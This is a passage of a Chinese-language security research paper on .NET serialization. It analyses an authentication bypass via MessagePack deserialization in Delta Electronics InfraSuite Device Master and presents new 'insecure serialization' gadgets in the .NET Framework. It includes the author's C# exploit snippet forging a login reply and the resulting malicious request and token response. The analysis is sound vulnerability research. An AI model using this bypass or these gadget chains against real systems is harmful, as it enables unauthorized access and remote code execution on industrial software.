

图 5 InfraSuite Device Master 的新通信方案

一个重要的变化之一是从 `BinaryFormatter` 切换到 `MessagePack`。我在 2022 年 11 月进行了这项研究，老实说，我不知道 `MessagePack` 究竟是什么。到 2023 年 3 月，`MessagePack` 被研究人员 NinesPsygnosis 实现到了 `ysoserial.net` 中。然而，在我的研究期间，还没有关于滥用 MessagePack 的公开信息。我必须自己研究。

事实证明，MessagePack24 是一个非常强大的序列化器，具有多种功能，其中一些包括：

-   像不同的基于 setter 的序列化程序一样，反序列化期间会调用公共无参数构造函数，并使用公共 setter 处理成员。
-   具有使用参数调用构造函数的可能性。具有使用特殊属性调用构造函数的可能性。
-   通过反射设置成员的可能性 —— 无需调用 setter。
-   调用私有 setter 的可能性。
-   不同的操作模式。当使用 Typeless 模式时，攻击者可以在序列化对象中传递目标反序列化类型（可以视为 `Json.NET` 中 `TypeNameHandling` 的等效项）。当然，攻击者只能在反序列化成员为通用类型（如 Object 或 Dynamic）时完全控制类型。
-   等等。

关于 `MessagePack` 非常重要的一点是，其默认行为在不同版本之间可能会发生显着变化。因此，可以预期这个反序列化器在不同版本中可能会有完全不同的行为。

通常，当我们向基于 gRPC 的 `InfraSuite Device Master` 发送一个数据包时，反序列化的过程如下：

-   使用 `MessagePack Typeless` 反序列化模式。
-   代码期望 `InfraSuiteManager.GrpcService.Service.ServiceRequest` 类型的对象。

```plain
.. 
// Removed for readability 
.. 
public ServiceRequest() 
{ 
} 

public string remoteIPAddress; 
public int i32ServerID; 
public uint u32SerialNumber; 
public int i32PayloadType; 
public int i32ConnectionIndex; 
public string token; 

[Dynamic] 
public dynamic payload; // [1] 

public StatusCode status; 
private volatile bool finished; 

[CompilerGenerated] 
private Action Finished;
```

代码段 61 ServiceRequest 类

在 \[1\] 处，我们可以看到一个名为 payload 的成员，其类型为 dynamic。它还设置了 Dynamic 属性。

因此，我们可以使用 `ServiceRequest.payload` 成员来传递任何类型的序列化对象。然后，它将通过 `MessagePack Typeless` 模式进行反序列化。

在寻找直接滥用这个反序列化机制的方法之前，让我们先看一下已实施的身份验证机制。

#### 3.3 InfraSuite Device Master – 反序列化导致身份验证绕过

我已经提到过身份验证机制已经实施。由于我在 `InfraSuite Device Manager` 中发现了多个在身份验证后可能被利用的漏洞，我决定先看一下身份验证本身是如何工作的。

让我们看看身份验证的工作原理。它是在 `InfraSuiteManager.ControlLayer.ControlLayerMngt.CheckgRPCAuthentication` 方法中实现的：

```plain
private bool CheckgRPCAuthentication(ServiceRequest packet, out bool isloginout) 
// [1] 
{ 
    isloginout = false; 
    packet.i32ConnectionIndex = this.GetAPgRPCConnectionIndex(packet.token); 
    if (packet.i32ConnectionIndex < 0) 
    { 
        if (packet.i32PayloadType == 16) 
        {
            CtrlLayerNWCommand_UserInfo ctrlLayerNWCommand_UserInfo =  
packet.payload as CtrlLayerNWCommand_UserInfo; // [2] 
            if (ctrlLayerNWCommand_UserInfo != null &&  
ctrlLayerNWCommand_UserInfo.i32SubCommand == 65536) // [3] 
            { 
                DateTime expiration; 
                packet.i32ConnectionIndex =  
this.UpdateNewAPgRPCConnectionConfigStatus(packet.remoteIPAddress, out 
packet.token, out expiration); // [4] 
                this.CtrlLayerNWCmd_UserInfo(packet); // [5] 
                if (packet.i32ConnectionIndex >= 0) 
                { 
                    if (ctrlLayerNWCommand_UserInfo.controlReply != null &&  
ctrlLayerNWCommand_UserInfo.controlReply.bResultList[0]) // [6] 
                    { 
                        isloginout = true; 
                        ctrlLayerNWCommand_UserInfo.controlReply.token =  
packet.token; // [7] 
                        ctrlLayerNWCommand_UserInfo.controlReply.expiration =  
expiration; 
                        return true; // [8] 
                    } 

this.UpdateAPDisConnectionConfigStatus(packet.i32ConnectionIndex); 
                    return true; 
                } 
            } 
        } 
        packet.status = StatusCode.Unauthenticated; 
        return false; 
    } 
    if (packet.i32PayloadType == 16) 
    { 
        CtrlLayerNWCommand_UserInfo ctrlLayerNWCommand_UserInfo2 = packet.payload 
as CtrlLayerNWCommand_UserInfo; 
        if (ctrlLayerNWCommand_UserInfo2 != null &&  
ctrlLayerNWCommand_UserInfo2.i32SubCommand == 131072) 
        { 
            isloginout = true; 
            this.CtrlLayerNWCmd_UserInfo(packet); 
            this.UpdateAPDisConnectionConfigStatus(packet.i32ConnectionIndex); 
        } 
    } 
    return true; 
}
```

代码段 62 CheckgRPCAuthentication 方法

在 \[1\] 处，定义了该方法。它接受 `ServiceRequest` 对象作为输入。这是用户发送的对象，然后通过 `MessagePack` 进行反序列化（参见上一章）。

在 \[2\] 处，代码从 `packet.payload` 中提取 `CtrlLayerNWCommand_UserInfo` 对象。因此，可以看出为了进行身份验证，`ServiceRequest.payload` 需要是 `CtrlLayerNWCommand_UserInfo`类型。

在 \[3\] 处，代码验证 `i32SubCommand` 成员是否等于 65536（身份验证命令）。

在 \[4\] 处，生成新的身份验证令牌。

在 \[5\] 处，代码调用 `CtrlLayerNWCmd_UserInfo`方法，并将整个数据包作为输入传递。

在 \[6\] 处，它验证控制 `CtrlLayerNWCommand_UserInfo.controlReply` 不等于 null，以及其 bResultList 成员的第一项是否等于 true。

如果是，它在 \[7\] 处设置相应的身份验证令牌。

在 \[8\] 处，返回 true。

为了成功验证进入应用程序，必须满足 \[6\] 处的条件。在这种情况下，响应将包含身份验证令牌，并且该方法将返回 true（这对于代码流程很重要）。

我们知道我们序列化的 `ServiceRequest.payload` 成员需要是 `CtrlLayerNWCommand_UserInfo` 类型：

```plain
public class CtrlLayerNWCommand_UserInfo : CtrlLayerNWCommand_Base 
{ 
    public CtrlLayerNWCommand_UserInfo_Config configData; 

     public CtrlLayerNWCommand_UserInfo_ConfigReply configReply; 

    public CtrlLayerNWCommand_UserInfo_Control controlData; 

    public CtrlLayerNWCommand_UserInfo_ControlReply controlReply; 

    public CtrlLayerNWCommand_UserInfo_AccountStatusInfo statusInfo; 

    public CtrlLayerNWCommand_UserInfo_AccountStatusInfoReply statusInfoReply; 
}
```

代码段 63 CtrlLayerNWCommand\_UserInfo

在这个阶段，有一件事引起了我的注意。看起来这种类型的对象包含了请求数据和响应，例如：`CtrlLayerNWCommand_UserInfo_Control` 和 `CtrlLayerNWCommand_UserInfo_ControlReply` 成员。这似乎不是一种理想的方法，但让我们验证一下 `CtrlLayerNWCmd_UserInfo` 方法。

```plain
private void CtrlLayerNWCmd_UserInfo(ServiceRequest packet) 
{ 
    CtrlLayerNWCommand_UserInfo ctrlLayerNWCommand_UserInfo = packet.payload as 
CtrlLayerNWCommand_UserInfo; 
    if (ctrlLayerNWCommand_UserInfo != null) 
    {
        PresentationLayerNWCmds_CTRL.CtrlLayerNWCmd_UserInfo(ref 
ctrlLayerNWCommand_UserInfo, packet.i32ConnectionIndex); // [1] 
    } 
}
```

代码段 64 CtrlLayerNWCmd\_UserInfo 方法

在 \[1\] 处，它调用了这个方法的另一个实现。

```plain
public static bool CtrlLayerNWCmd_UserInfo(ref CtrlLayerNWCommand_UserInfo 
sUserInfoOperation, int iConnectionIndex) 
{ 
    UserData userData = default(UserData); 
    UserGroupData userGroupData = default(UserGroupData); 
    List<string> beforeModify = new List<string>(); 
    List<string> afterModify = new List<string>(); 
    if ((sUserInfoOperation.i32SubCommand & 511) != 0) // [1] 
    { 
    ... 
    } 
    ... 
    else if ((sUserInfoOperation.i32SubCommand & 65536) != 0) // [2] 
    { 
        if (sUserInfoOperation.controlData != null) // [3] 
        { 
            sUserInfoOperation.controlReply = new 
CtrlLayerNWCommand_UserInfo_ControlReply(); // [4] 
            sUserInfoOperation.controlReply.bResultList = new bool[1]; 
            sUserInfoOperation.controlReply.bResultList[0] =  
SystemGlobalResource._gUserInfoMngt.UserLogin(sUserInfoOperation.controlData.acco 
unt, sUserInfoOperation.controlData.password, false, out 
sUserInfoOperation.controlReply.userStatusInfo); 
            UserData userData2; 
            if 
(SystemGlobalResource._gUserInfoMngt.GetUserDataByAccount(sUserInfoOperation.cont 
rolData.account, out userData2)) 
            { 
                try 
                { 

SystemGlobalResource._gLogMngt.AddOperatorLog_UserLogin(sUserInfoOperation.contro 
lReply.bResultList[0] ? 186 : 187, userData2.i16UserID, 
SystemGlobalResource._gControlLayerMngt.ControlServerOPState.sAPLayerConfigStatus 
List[iConnectionIndex].ipAddress, DateTime.Now); 
                } 
                catch 
                { 
                } 
            } 
            sUserInfoOperation.controlData = null; 
            return true; 
        } 
    }
    ... 
    return false; // [5] 
}
```

在 \[1\] 处，它开始了基于命令子类型的 if 语句系列。

在 \[2\] 处，它定义了身份验证消息的代码。

在 \[3\] 处，它验证 controlData 成员（我们的请求数据）是否不为 null。如果为 null，则不执行任何操作，最终在 \[5\] 处返回。如果不为 null，则执行凭据验证操作。

在 \[4\] 处，controlReply 成员设置为 `CtrlLayerNWCommand_UserInfo_ControlReply` 的新实例。请注意，此代码仅在 controlData 成员不为 null 时执行。

漏洞存在于 \[3\] 和 \[4\] 行。只有在 controlData 不为 null 时，controlReply 才会设置为对象的新实例。

攻击者完全控制整个 `CtrlLayerNWCommand_UserInfo` 对象，因此他可以发送一个对象，其中：

-   controlData 成员为 null。
-   controlReply 包含有效的身份验证响应（！），表示提供的凭据是适当的。实际上，我们需要将 bResultList 的第一项设置为 true。

这是关于反序列化误用的一个绝佳示例，这在关于反序列化的最初演示或文章中提到过，但在实际中很少见。当给予攻击者控制太多成员的可能性时，他可能会影响代码流和已实施的逻辑。

以下是我的攻击利用的片段，用于创建恶意身份验证请求：

```plain
ServiceRequest serviceRequest = new ServiceRequest(); 
serviceRequest.u32SerialNumber = (uint)0x0; 
serviceRequest.i32PayloadType = (int)0x10; 
serviceRequest.i32ServerID = (int)0x0; 

//userinfo 
CtrlLayerNWCommand_UserInfo userInfo = new CtrlLayerNWCommand_UserInfo(); 

//login operation 
userInfo.i32SubCommand = (int)0x00010000; 
userInfo.i16OperationUserID = (short)0; 

//set reply - bypass the auth through setting the first item of bResultList to  
true 
CtrlLayerNWCommand_UserInfo_ControlReply controlReply = new 
CtrlLayerNWCommand_UserInfo_ControlReply(); 
controlReply.bResultList = new bool[] { true }; 
userInfo.controlReply = controlReply; 

//set payload
serviceRequest.payload = userInfo;
```

代码段 65 创建恶意身份验证请求

当我们将这样的请求发送到 `InfraSuite Device Master` 的受影响版本时，应该能够获得有效的身份验证令牌。

序列化的恶意请求（不可打印字符已被替换为点字符）。

```plain
......i32ServerID..u32SerialNumber..i32PayloadType..i32ConnectionIndex..token.test.payload...d.sI 
nfraSuiteManager.Common.CtrlLayerNWCommand_UserInfo, Common, Version=1.0.0.0,  
Culture=neutral,  
PublicKeyToken=null..i16OperationUserID..i32SubCommand......configData..configReply..controlD 
ata..controlReply..bResultList...userStatusInfo..challenge..statusInfo..statusInfoReply..status..finish 
ed.
```

代码段 66 Serialized malicious request - InfraSuite Device Master authentication bypass

检索到的响应，可以看到它包含了身份验证令牌。

```plain
.......i32ServerID..u32SerialNumber..i32PayloadType..i32ConnectionIndex..token.$6f379aaf-2eda- 
478e-b2b4- 
c8c5a63d8b62.payload..Wd.sInfraSuiteManager.Common.CtrlLayerNWCommand_UserInfo,  
Common, Version=1.0.0.0, Culture=neutral,  
PublicKeyToken=null..i16OperationUserID..i32SubCommand......configData..configReply..controlD 
ata..controlReply&.bResultList...userStatusInfo..challenge..token.$6f379aaf-2eda-478e-b2b4- 
c8c5a63d8b62.expiration.H......K.statusInfo..statusInfoReply..status..exception.
```

代码段 67 身份验证绕过响应及其令牌

#### 3.4 InfraSuite Device Master – 寻找未经身份验证的远程代码执行

在这个阶段，我能够：

-   绕过刚刚实施的身份验证机制。
-   利用一些后身份验证漏洞，实现远程代码执行。

我也意识到，可以在没有身份验证的情况下交付任何类型的序列化对象。然后，该对象将由 MessagePack 序列化器在 Typeless 模式下反序列化。

经过对 MessagePack 功能的审查，我们应该能够利用这个反序列化例程，使用已知的 `ObjectDataProvider` 小工具。它实现了一个无参数的公共构造函数，我们可以通过公共 setter 实现恶意行为（RCE）。

很快，我发现我是错误的。在前面的章节中，我提到 MessagePack 在版本之间的默认行为可能会发生变化。InfraSuite Device Master 使用的是 MessagePack 的旧版本 – 2.1.90。我发现 `ObjectDataProvider` 小工具仅在 2.3.75 及以上版本中正常工作。

`ObjectDataProvider` 扩展了 `DataSourceProvider`，后者定义了 Dispatcher 成员：

```plain
protected Dispatcher Dispatcher 
{ 
    get 
    { 
        return this._dispatcher; 
    } 
    set 
    { 
        if (this._dispatcher != value) 
        { 
            this._dispatcher = value; 
        } 
    } 
}
```

代码段 68 DataSourceProvider.Dispatcher member

由此可见，该成员是受保护的。通常情况下，当我们实例化 `ObjectDataProvider` 时（例如通过反序列化），Dispatcher 将被设置为某个默认值（非空值）。由于此成员受保护，我们甚至不能使用大多数序列化器修改它。

这里出现了 Message Pack < 2.3.75 的意外行为：

-   尝试设置反序列化类型的所有可用成员（即使在序列化对象中未指定该成员）。如果在序列化负载中未指定该成员，该成员将被设置为 null。
-   它还可以对非公共成员进行操作，包括受保护的成员。

因此，当我们使用 MessagePack < 2.3.75 反序列化 `ObjectDataProvider` 时，Dispatcher 成员将被设置为 null。Dispatcher 成员无法由较旧版本的 MessagePack 反序列化，我们无法控制它，因此我们必须处理它始终为 null 的事实。

现在，让我们验证它是否有任何影响。当我们使用 `ObjectDataProvider` 调用已实例化对象上的方法时（MessagePack 的唯一可行方法），它会两次刷新对象（使用 `DataSourceProvider.Refresh` 方法）。攻击者指定的方法将在第二次刷新时执行。然而，每次刷新都会以 `OnQueryFinished` 方法结束。

```plain
protected virtual void OnQueryFinished(object newData, Exception error, 
DispatcherOperationCallback completionWork, object callbackArguments) 
{ 
    Invariant.Assert(this.Dispatcher != null); // [1] 
    if (this.Dispatcher.CheckAccess()) 
    { 
        this.UpdateWithNewResult(error, newData, completionWork, 
callbackArguments); 
        return; 
    } 
    this.Dispatcher.BeginInvoke(DispatcherPriority.Normal, 
DataSourceProvider.UpdateWithNewResultCallback, new object[] 
    { 
        this, 
        error, 
        newData,
        completionWork, 
        callbackArguments 
    });
}
```

代码段 69 OnQueryFinished 方法

在 \[1\] 处调用了 `Invariant.Assert`。在我们的案例中，将 false 作为输入值提供，因为 Dispatcher 成员为 null。

```plain
internal static void Assert(bool condition) 
{ 
    if (!condition) 
    { 
        Invariant.FailFast(null, null); 
    } 
}
```

代码段 70 Invariant.Assert 方法

在这里，我们可以看到调用 `Invariant.FailFast`，会终止当前进程。因此，`ObjectDataProvider` 实际上是 MessagePack < 2.3.75 版本的拒绝服务工具。从版本 2.3.75 开始，`ObjectDataProvider` 可以用于远程代码执行。

这非常有趣。然而，我仍然无法通过反序列化实现无身份验证的远程代码执行。我的想法是：如果我能找到一些新的反序列化工具，是否可以用来攻击这个较旧版本的 MessagePack？

在这个时候，我还没有找到这样的工具。不过，我有另一个有趣的想法。整个通信过程如下：

-   未经身份验证的攻击者发送序列化数据。
-   产品反序列化数据。
-   产品对反序列化的对象执行一些操作。
-   产品将此对象序列化。
-   序列化的对象发送回给攻击者。

在这一点上，我考虑了攻击面的扩展。在序列化期间，将调用 getter 而不是 setter。我无法找到基于 setter 的工具，但也许我能找到基于 getter 的工具？这一切都引导我进入了不安全序列化的概念。

### 4 不安全序列化

本章描述了不安全序列化的概念，并展示了：

-   不安全序列化何时和如何被利用。
-   如何用它来绕过为反序列化实施的安全措施。
-   `.NET Framework` 中序列化工具的示例。
-   第三方库中的序列化工具示例。
-   SolarWinds 平台和 `Delta Electronics InfraSuite Device Master` 中两个实际的序列化漏洞。

#### 4.1 不安全序列化 - 概念概述

我认为不安全序列化从未被视为一种适用的攻击面（至少在我看来是这样），这可能有多种原因。一方面可能是攻击者很难控制输入对象。在反序列化漏洞的情况下，对象以某种结构化方式提供（JSON、XML 等）。另一方面，序列化过程需要一个真实的对象来处理。

在深入了解详细信息之前，让我们考虑一下序列化的攻击面。在基于 setter 的序列化器中，序列化过程通常基于调用对象成员的公共 getter。这与反序列化相反，后者主要调用 setter。这显然扩展了我们的攻击面，因为在此之前，通常不考虑用于利用的 getter。

我们如何考虑序列化问题的利用？有一些应用程序实施了以下操作方案：

-   接受用户/客户端的输入。
-   对输入进行反序列化。
-   对反序列化的对象执行一些操作。
-   再次对对象进行序列化。
-   将序列化的对象发送回给用户/客户端。



图 6 简单的反序列化 - 序列化方案

在这个阶段，人们可能会认为应用程序首先执行反序列化，因此其余的操作并不相关。但是我们可以考虑以下场景：

-   应用程序实施了阻止和允许列表，不能通过任何已知的反序列化小工具绕过。
-   使用的反序列化器无法利用任何已知的小工具。
-   利用需要应用程序将数据发送回攻击者。

这个想法并非是毫无根据的。在前面的章节中，我已经描述了 `Delta Electronics InfraSuite Device Master` 中的反序列化问题。正如已经了解的，它使用了 MessagePack 序列化器的旧版本，目前所有已知的基于 setter 的反序列化小工具对这个版本都不起作用。然而，它的操作确切地如下图所示——它是反序列化攻击者的对象，对其执行某些操作，然后将其重新序列化。在寻找利用这个产品的方法时，我发现以下攻击场景可能是适用的。



图 7 不安全序列化利用案例

在这里，攻击者发送了一个恶意序列化对象，其中：

-   对象的反序列化不会导致任何恶意操作。提供的对象的类型不应存在于任何反序列化黑名单中。
-   在序列化期间，检索到的对象触发了恶意操作。

这样的情景可能允许绕过各种保护机制，因为大多数（甚至全部）应用程序没有考虑到这样的攻击面。

然而，所呈现的攻击场景在我们提供一种利用方式之前无效，因此我们需要找到一些不安全的序列化小工具。首先，我想提到我将序列化小工具分为两个主要组别：

-   序列化小工具：在 getter 调用期间执行恶意操作。
-   反序列化到序列化小工具：在反序列化阶段执行恶意操作，尽管攻击者只能在序列化后受益。

在接下来的章节中，我将描述 .NET Framework、第三方库和产品代码库中的几个序列化小工具。

#### 4.2 不安全的序列化 - .NET Framework 中的小工具

这些小工具通常是通用的，可以在不同的产品中使用。在序列化问题的情况下，实际上可能很难利用这些小工具，因为其利用程度严重依赖于具体的应用程序。尽管如此，其中一个小工具已成功用于 ICS/SCADA 解决方案。本章介绍了 .NETFramework 中两个导致直接远程代码执行的不安全序列化工具：

-   SettingsPropertyValue
-   SecurityException

它还介绍了第三个序列化小工具，允许加载本地 DLL，并可以与任意文件写入漏洞链接。实际上，这相当于已知的 AssemblyInstaller 小工具，尽管它是通过序列化可利用的：

-   CompilerResults

以下表格显示了这些小工具。

| **Gadget** | **Type** | **Effect** |
| --- | --- | --- |
| SettingsPropertyValue | Serialization | RCE through BinaryFormatter  <br>deserialization. |
| SecurityException | Serialization | RCE through BinaryFormatter  <br>deserialization. |
| CompilerResults | Serialization | Local DLL loading. Can be chained  <br>with file write  <br>functionalities/vulnerabilities. |

表 2 在.NET Framework 中的序列化小工具

##### 4.2.1 不安全的序列化 – SettingsPropertyValue 远程代码执行小工具

类型：序列化小工具。

效果：小工具导致 `BinaryFormatter.Deserialize` 调用，攻击者完全控制输入。由于 `BinaryFormatter` 存在多个小工具，此小工具允许实现远程代码执行。

描述：通过调用 `System.Configuration.SettingsPropertyValue.get_PropertyValue getter`，可以滥用此小工具。发现该小工具在 MessagePack 序列化器的默认配置下是可利用的。根据配置，其他序列化器可能也是可利用的。例如，当通过 `JsonSerializerSettings` 引入异常处理时，`Json.NET` 可能是可利用的。

对象准备 – 反序列化：

为了为序列化的利用做好准备，必须首先对对象进行反序列化。它实现了一个构造函数，接受 `SettingsProperty` 类型的单一参数。

```plain
public SettingsPropertyValue(SettingsProperty property) 
{ 
    this._Property = property; 
}
```

代码段 71 SettingsPropertyValue - constructor

这个构造函数可以被多个基于 setter 的序列化器调用，如 `Json.NET` 或 MessagePack。然而，`SettingsProperty` 类型无法被 `Json.NET` 反序列化（它实现了多个构造函数，所有构造函数都接受参数）。虽然可以为构造函数提供空值，但在进一步的利用过程中可能会出现问题。不过，MessagePack 序列化器对 `SettingsProperty` 类型没有问题。

在下一步中，需要设置 `SerializedValue setter`。

```plain
public object SerializedValue 
{ 
    [SecurityPermission(SecurityAction.LinkDemand, Flags =  
SecurityPermissionFlag.SerializationFormatter)] 
    get 
    { 
        if (this._ChangedSinceLastSerialized) 
        { 
            this._ChangedSinceLastSerialized = false; 
            this._SerializedValue = this.SerializePropertyValue(); 
        } 
        return this._SerializedValue; 
    } 
    [SecurityPermission(SecurityAction.LinkDemand, Flags =  
SecurityPermissionFlag.SerializationFormatter)] 
    set 
    { 
        this._UsingDefaultValue = false; 
        this._SerializedValue = value; 
    } 
}
```

代码段 72 SettingsPropertyValue – SerializedValue member

攻击者需要提供一个字节数组。它将用于设置 `_SerializedValue` 成员。这个字节数组应该包含一个 BinaryFormatter 反序列化 gadget。最后，Deserialized 成员必须设置为 false。

```plain
public bool Deserialized 
{ 
    get 
    { 
        return this._Deserialized; 
    } 
    set 
    { 
        this._Deserialized = value;
    } 
}
```

代码段 73 SettingsPropertyValue - Deserialized member

这个阶段，恶意的 `SettingsPropertyValue` 已准备好进行反序列化，然后进行序列化。

不安全的序列化：

在对 `SettingsPropertyValue` 进行序列化时，可能大多数序列化器首先会调用 `get_Name getter`。

```plain
public string Name 
{ 
    get 
    { 
        return this._Property.Name; 
    } 
}
```

代码段 74 SettingsPropertyValue - Name member

这个 getter 对于不能反序列化 `SettingsProperty` 类型的序列化器是有问题的。在这种情况下，该 getter 会抛出 `NullReferenceException`（无法检索空对象的属性）。对于 MessagePack 序列化器，这个 getter 不会抛出异常，因为它能够反序列化 `SettingsProperty` 对象。此外，当提供自定义配置（例如自定义异常处理）时，此 gadget 对于不同的序列化器可能仍然是可利用的。

最后，调用 `get_PropertyValue getter`。

```plain
public object PropertyValue 
{ 
    get 
    { 
        if (!this._Deserialized) // [1] 
        { 
            this._Value = this.Deserialize(); // [2] 
            this._Deserialized = true; 
        } 
        if (this._Value != null && !this.Property.PropertyType.IsPrimitive &&  
!(this._Value is string) && !(this._Value is DateTime)) 
        { 
            this._UsingDefaultValue = false; 
            this._ChangedSinceLastSerialized = true; 
            this._IsDirty = true; 
        } 
        return this._Value; 
    } 
}
```

代码段 75 SettingsPropertyValue - PropertyValue member

在 \[1\] 处，代码检查 `_Deserialized` 成员是否设置为 true。我们已经将其设置为 false。如果 `_Deserialized` 是 false，则将调用 `SettingsPropertyValue.Deserialize` 方法。

```plain
private object Deserialize() 
{ 
    object obj = null; 
    if (this.SerializedValue != null) 
    { 
        try 
        { 
            if (this.SerializedValue is string) // [1] 
            { 
                obj =  
SettingsPropertyValue.GetObjectFromString(this.Property.PropertyType,  
this.Property.SerializeAs, (string)this.SerializedValue); 
            } 
            else 
            { 
                MemoryStream memoryStream = new 
MemoryStream((byte[])this.SerializedValue); // [2] 
                try 
                { 
                    obj = new BinaryFormatter().Deserialize(memoryStream); // [3] 
                } 
                finally 
                { 
                    memoryStream.Close(); 
                } 
            } 
        } 
        ... 
        // Removed for readability 
        ...
```

代码段 76 SettingsPropertyValue - Deserialize 方法

在 \[1\] 处，代码检查 `SerializedValue` 是否为 `String` 类型。

如果不是，则继续并在 \[2\] 处从 `SerializedValue` 成员创建 `MemoryStream`。

最后，在 \[3\] 处使用受攻击者控制的输入调用 `BinaryFormatter.Deserialize` 方法。

总而言之，此序列化小工具可用于使用受攻击者控制的输入调用 `BinaryFormatter.Deserialize`。由于此内部反序列化调用未受任何 `SecurityBinder` 保护，可以使用多个不同的二进制小工具，从而实现远程代码执行。

##### 4.2.2 不安全的序列化 – SecurityException 远程代码执行小工具

类型：序列化工具

效果：导致 `BinaryFormatter.Deserialize` 调用，攻击者完全控制输入。由于 `BinaryFormatter` 存在多个工具，因此该工具允许实现远程代码执行。

描述：该工具可通过对 `System.Security.SecurityException.get_Method` 的调用而被滥用。这个序列化工具难以利用，因为它需要结合两种不同类型的序列化器：

-   在反序列化/序列化期间支持 Serializable 接口的序列化器。
-   不支持 Serializable 接口或在调用 Serializable 特定方法之前优先调用 getter 的序列化器。

例如，它可能在以下情况下起作用：

-   数据首先通过 `BinaryFormatter` 或 `Json.NET` 序列化器进行反序列化。
-   然后使用 `JavaScriptSerializer` 序列化对象。

尽管这样的情况似乎不太可能，但有多个应用程序混合使用不同的序列化器。例如，SolarWinds Platform 提供一种功能，其中数据首先通过 `Json.NET` 进行反序列化，然后再次通过 `DataContractSerializer` 进行序列化。此外，此工具被用于创建新的反序列化工具（请参阅“Combining Getter Gadgets with Insecure Serialization Gadgets”章节）。

不安全的序列化：

在使用 setter-based 序列化器序列化 `System.Security.SecurityException` 时，将调用 `get_Method getter`。

```plain
public MethodInfo Method 
{ 
    [SecuritySafeCritical] 
    [SecurityPermission(SecurityAction.Demand, Flags =  
(SecurityPermissionFlag.ControlEvidence | SecurityPermissionFlag.ControlPolicy))] 
    get 
    { 
        return this.getMethod(); 
    } 
}
```

代码段 77 SecurityException - Method member getter

这导致了 getMethod 的调用：

```plain
private MethodInfo getMethod() 
{ 
    return 
(MethodInfo)SecurityException.ByteArrayToObject(this.m_serializedMethodInfo); 
}
```

代码段 78 SecurityException - getMethod 方法

它调用 `ByteArrayToObject` 方法，并将 `m_serializedMethodInfo` 作为参数传递。

```plain
private static object ByteArrayToObject(byte[] array) 
{ 
    if (array == null || array.Length == 0) 
    { 
        return null; 
    } 
    MemoryStream serializationStream = new MemoryStream(array); 
    BinaryFormatter binaryFormatter = new BinaryFormatter(); 
    return binaryFormatter.Deserialize(serializationStream); 
}
```

代码段 79 SecurityException – ByteArrayToObject 方法

在前面提到过，这个序列化小工具需要成功利用两种类型的序列化器：

-   在反序列化/序列化期间支持 Serializable 接口的序列化器。
-   不支持 Serializable 接口或在执行 Serializable 特定方法之前优先考虑 getter 调用的序列化器。

由于存在这样的限制，所以不能通过 setter 调用完全控制 `m_serializedMethodInfo` 成员。

```plain
public MethodInfo Method 
{ 
    set 
    { 
        RuntimeMethodInfo runtimeMethodInfo = value as RuntimeMethodInfo; 
        this.m_serializedMethodInfo =  
SecurityException.ObjectToByteArray(runtimeMethodInfo); 
        if (runtimeMethodInfo != null) 
        { 
            this.m_strMethodInfo = runtimeMethodInfo.ToString(); 
        } 
    } 
}
```

代码段 80 Security Exception - Method setter

Setter 期望一个 MethodInfo 类型的对象，然后该对象将被序列化。它通过 setter 调用阻止攻击者提供恶意小工具。尽管如此，攻击者可以通过支持 Serializable 接口的序列化器提供恶意小工具，并在反序列化过程中调用自定义构造函数。

```plain
protected SecurityException(SerializationInfo info, StreamingContext context) :  
